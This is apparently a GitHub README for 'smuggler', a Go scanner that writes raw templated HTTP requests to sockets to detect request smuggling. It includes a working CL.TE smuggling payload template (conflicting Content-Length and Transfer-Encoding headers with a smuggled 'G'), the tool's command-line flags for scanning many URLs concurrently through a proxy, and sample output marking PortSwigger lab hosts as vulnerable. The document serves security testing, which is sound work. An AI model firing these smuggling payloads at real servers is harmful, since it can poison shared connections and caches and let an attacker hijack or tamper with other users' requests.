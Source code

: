 # Race conditions now fixed using channels

# smuggler
net/http makes it very challenging to send a request with malformed or duplicate headers. So for this application, it is more practical to parse a template and write it to a socket. This makes it simple to add your own payloads and may be useful for other things than request smuggling for ease of creating templates by copy/pasting from Burp.  
  
I took some ideas from this article https://www.synopsys.com/blogs/software-security/fuzzing-test-cases-not-all-random/ about the structure of the program. Separating the application into distinct sections being poet, courier, and oracle help make the code more reusable.



Templates:
```
POST {{.Path}} HTTP/1.1
Host: {{.Host}}
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G

```

Usage:
```
$ ./smuggler -h
Usage of ./smuggler:
  -proxy string
    	Set the Golang proxy, for example: http://example.com:8080
  -threads int
    	Number of concurrent targets to test (default 5)
  -timeout int
    	Timeout (default 10)
  -u string
    	Target URL
  -urls string
    	List of URLs
```

Example test on Portswigger labs:
```
$ ./smuggler -urls targets.test
https://ace51fd41fcbfab0c03e376f00890063.web-security-academy.net/ is vulnerable, payload: templates/template.txt
https://acbf1fa51ea928ebc0ae8934000800c3.web-security-academy.net/ is vulnerable, payload: templates/template2.txt
https://acbf1fa51ea928ebc0ae8934000800c3.web-security-academy.net/ is vulnerable, payload: templates/template3.txt

```
